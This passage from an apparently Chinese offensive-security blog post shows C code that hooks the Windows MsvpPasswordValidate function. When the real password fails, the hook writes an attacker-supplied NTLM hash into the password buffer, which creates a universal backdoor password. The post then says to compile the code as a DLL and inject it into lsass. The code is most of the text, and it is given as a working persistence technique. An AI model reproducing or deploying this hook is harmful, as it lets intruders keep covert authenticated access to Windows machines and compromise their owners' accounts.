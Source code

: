 2.设置特定密码 这里就是可以通过拿一个 hash 赋值进去。

```bash
BOOLEAN HookMSVPPValidate(BOOLEAN UasCompatibilityRequired,
    NETLOGON_LOGON_INFO_CLASS LogonLevel,
    PVOID LogonInformation,
    void* Passwords,
    PULONG UserFlags,
    PUSER_SESSION_KEY UserSessionKey,
    PVOID LmSessionKey) {
    NETLOGON_LOGON_IDENTITY_INFO* logonIdentity = (NETLOGON_LOGON_IDENTITY_INFO*)LogonInformation;
    BOOLEAN Login_IF;
    if (MsvpPasswordValidate(UasCompatibilityRequired, LogonLevel, LogonInformation, Passwords, UserFlags, UserSessionKey, LmSessionKey)) {
        return TRUE;
    }
    else {
        const unsigned char pass[] = { 你的 hash };
        for (int i = 0; i < 16; i++) {
            ((unsigned char*)Passwords)[i] = pass[i];
        }
        return MsvpPasswordValidate(UasCompatibilityRequired, LogonLevel, LogonInformation, Passwords, UserFlags, UserSessionKey, LmSessionKey);
    }
}
```

首先来测试第一种方式。  
[![](assets/1708919560-18ee75f2d9791ed3c3c362945eecb7f7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240204170915-11980592-c33d-1.png)  
编译之后，通过 Process 该工具将 dll 注入到 lsass 中  